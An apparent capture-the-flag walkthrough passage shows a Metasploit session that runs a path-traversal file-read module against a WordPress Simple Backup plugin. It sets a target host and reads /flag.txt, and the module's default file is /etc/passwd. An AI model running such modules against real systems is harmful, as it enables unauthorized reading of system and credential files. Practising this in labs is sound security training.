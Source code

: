 Search for `Simple Backup Plugin 2.7.10` in Metasploit.

```bash
msf6 > search exploit Simple Backup Plugin 2.7.10

Matching Modules
================

   #  Name                                               Disclosure Date  Rank    Check  Description
   -  ----                                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wp_simple_backup_file_read                   normal  No     WordPress Simple Backup File Read Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/http/wp_simple_backup_file_read

msf6 > use 0
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > options

Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      6                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /etc/passwd      yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set rhost 46.101.0.22
rhost => 46.101.0.22
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set rport 30846
rport => 30846
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set filepath /flag.txt
filepath => /flag.txt
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > run

[+] File saved in: /home/kali/.msf4/loot/20221117065310_default_46.101.0.22_simplebackup.tra_338516.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) >
```
